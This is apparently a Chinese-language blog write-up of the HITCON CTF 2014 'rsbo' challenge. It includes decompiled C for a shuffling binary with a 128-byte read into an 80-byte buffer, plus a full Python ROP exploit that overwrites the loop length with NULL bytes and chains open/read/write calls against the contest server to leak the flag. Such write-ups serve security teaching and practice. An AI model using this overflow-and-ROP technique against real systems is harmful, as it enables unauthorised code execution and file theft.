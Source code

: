 ```yaml
---
layout: post
title: HITCON CTF 2014 - rsbo
category: writeup
---
```


> $ nc 210.61.8.96 51342
> https://github.com/hitcon2014ctf/ctf/raw/master/rsbo-4a707e7d07e87ab97348be36efea28dc
> https://dl.dropbox.com/s/ydsuwrxv7soj0je/rsbo-4a707e7d07e87ab97348be36efea28dc

remote pwn 的題目，程式會將輸入的字串打亂後輸出:
![nc](http://3.bp.blogspot.com/-0N4fxq3ia5w/U_IPrwMMmGI/AAAAAAAAAYY/jV242BHQdxc/s1600/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%2B2014-08-18%2B%E4%B8%8B%E5%8D%8810.37.00.png)

<!--more-->

抓下執行檔分析，內容大概如下:

```c
#include <stdio.h>
#include <stdlib.h>

ssize_t read_80_bytes(void *buf)
{
    return read(0, buf, 128);
}

void init()
{
    char buf[16];      // [sp+14h] [bp-24h]@1
    int fd;            // [sp+24h] [bp-14h]@1
    unsigned int seed; // [sp+28h] [bp-10h]@1
    int i;             // [sp+2Ch] [bp-Ch]@1

    fd = open("/home/rsbo/flag", 0);
    read(fd, buf, 16);
    seed = time(NULL);
    for ( i = 0; i < 16; ++i )
        seed = (1337 * seed + buf[i]) % 0x7FFFFFFF;
    close(fd);
    memset(buf, 0, 16);
    srand(seed);
}

int main()
{
    int _rand;       // eax@2
    char buffer[80]; // [sp+10h] [bp-60h]@1
    int tmp;         // [sp+60h] [bp-10h]@2
    int j;           // [sp+64h] [bp-Ch]@2
    size_t len;      // [sp+68h] [bp-8h]@1
    size_t i;        // [sp+6Ch] [bp-4h]@1

    alarm(30);
    init();
    len = read_80_bytes(buffer);
    for ( i = 0; i < len; ++i )
    {
      j = rand() % (i + 1);
      tmp = buffer[i];
      buffer[i] = buffer[j];
      buffer[j] = tmp;
    }
    write(1, buffer, len);
    return 0;
}
```

當輸入大於 80 個 char 時會發生 buffer overflow
但由於中間的迴圈會打亂輸入的內容，
因此沒辦法直接將 main() 的 return address 覆蓋為我們想要的 address

後來想到的解法是
塞108個 NULL 字元 + return address

這樣當迴圈中在做第 89 個字元的交換時，就可以把區域變數 len 蓋成 0，
藉此跳出迴圈，我們所指定的 return address 就不會被修改

接著就可以開始寫 rop payload
但有個問題，程式只會讀取128 bytes，扣掉要讓程式 buffer overflow 的108 bytes
我們的 payload 長度只能小於等於 20 bytes，


最後我用了一個有點懶人的解決方式，
先寫一小段 rop，執行完畢後讓 main() return 到程式的入口點，
再執行一次 main() 的內容，程式就會再讀取 80 bytes
此時我們就可以再送一次 payload，又再執行一小段 rop ，然後再回到程式入口點

我們的目的是
open flag -> read -> write

所以只需要執行三小段的 rop 就可以達到目的:

```py
#!/usr/bin/python
from struct import pack
import socket

open_addr = 0x08048420
write_addr = 0x08048450
read_addr = 0x080483E0
flag_path = 0x080487D0
start_addr = 0x08048490
bss_addr = 0x0804A040

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("210.61.8.96", 51342))

# open("/home/rsbo/flag", 0)
payload = ""
payload += "\x00" * 108
payload += pack("<I", open_addr)
payload += pack("<I", start_addr)
payload += pack("<I", flag_path)
payload += pack("<I", 0)
s.send(payload)

# read(3, bss_addr, 60)
payload = ""
payload += "\x00" * 108
payload += pack("<I", read_addr)
payload += pack("<I", start_addr)
payload += pack("<I", 3)            # fd
payload += pack("<I", bss_addr)     # buf
payload += pack("<I", 60)           # len
s.send(payload)

# write(1, bss_addr, 60)
payload = ""
payload += "\x00" * 108
payload += pack("<I", write_addr)
payload += pack("<I", start_addr)
payload += pack("<I", 1)            # fd
payload += pack("<I", bss_addr)     # buf
payload += pack("<I", 60)           # len
s.send(payload)

print s.recv(1024)
```

Flag: `HITCON{Y0ur rand0m pay1oad s33ms w0rk, 1uckv 9uy}`


